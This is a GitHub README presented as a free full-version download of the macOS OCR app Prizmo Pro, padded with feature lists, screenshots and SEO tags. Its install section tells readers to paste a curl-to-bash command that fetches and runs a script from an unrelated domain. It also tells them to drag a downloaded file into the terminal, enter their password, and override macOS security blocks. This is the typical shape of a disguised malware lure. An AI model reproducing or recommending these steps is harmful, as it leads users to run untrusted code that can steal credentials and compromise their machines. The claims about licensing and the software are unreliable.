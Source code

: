 <p align="center">
  <img src="https://i.ibb.co/W4QgD2sP/1608731887-prizmo.png" width="250" alt="Prizmo Pro macOS Banner" />
</p>

<h1 align="center">Prizmo Pro for macOS</h1>

<p align="center">
  📄 OCR and scanning powerhouse. Convert images, PDFs, and documents into searchable, editable text in over 20 languages.  
  <br><br>
  ✅ Works Offline – Apple Silicon Ready  
  ✅ Supports macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/255" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20PRIZMO%20PRO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Prizmo Pro for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/gM91DdbQ/1608732495-1.png" alt="Prizmo OCR UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Prizmo Pro for macOS?

**Prizmo Pro** is a macOS-native OCR (Optical Character Recognition) and scanning utility designed for professionals, students, and anyone working with physical documents. Scan paper documents, import PDFs or photos, and instantly convert them into fully editable and searchable text.

Prizmo Pro supports over 20 languages, offers voice output, and works offline — making it ideal for personal document archiving, form digitization, or quick content extraction from snapshots.

---

## ✅ Why Choose Prizmo Pro?

- 🔍 **Real-Time OCR for Images & PDFs**  
- 🗂️ **Batch Scan and Document Management**  
- 🌐 **Multilingual OCR (20+ Languages)**  
- 📤 **Export to TXT, PDF, RTF, DOCX & More**  
- 🧠 **Text-to-Speech Support Built-In**  
- 🧾 **Smart Layout Detection for Complex Docs**  
- 🍎 **Native M1/M2/M3 Apple Silicon Support**  
- 🔒 **All Processing Happens Locally**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/4nFb9vZV/1608732544-2.png" alt="Prizmo Batch Document Scanner Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/d0BCymQF/1608732581-3.png" alt="Multilingual OCR Settings Panel" />
</p>

---

## 🚀 Key Features

- Optical Character Recognition (OCR)  
- Scanner and camera input  
- Batch document processing  
- Built-in text-to-speech  
- Advanced layout analysis  
- Works with PDFs and images  
- Offline processing, no cloud required  
- Export to multiple editable formats

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Prizmo Pro manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/OCR-Image+PDF+Text+Export-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Prizmo Pro – Scan. Convert. Archive.

Thanks for using **Prizmo Pro for macOS**.  
Digitize paper into searchable files — instantly and securely.

---

## 🧭 Usage Context

Prizmo Pro is fully offline and private.  
Ideal for professionals, researchers, students, or remote workers.  
Use it for digitizing contracts, notes, invoices, or books — no cloud needed.

---

## 🔍 Tags

```text
prizmo pro mac download, ocr pdf mac editable text, scan to searchable pdf macos, convert image to text mac offline, best mac ocr app for documents, prizmo ocr for apple silicon, text recognition software macbook, batch document scanning utility mac, multilingual ocr app for mac m1 m2, extract text from scanned files mac, prizmo export text pdf docx macos, mac document digitization software, secure ocr tool for macos sonoma, image to editable document app mac, prizmo pro offline ocr full version
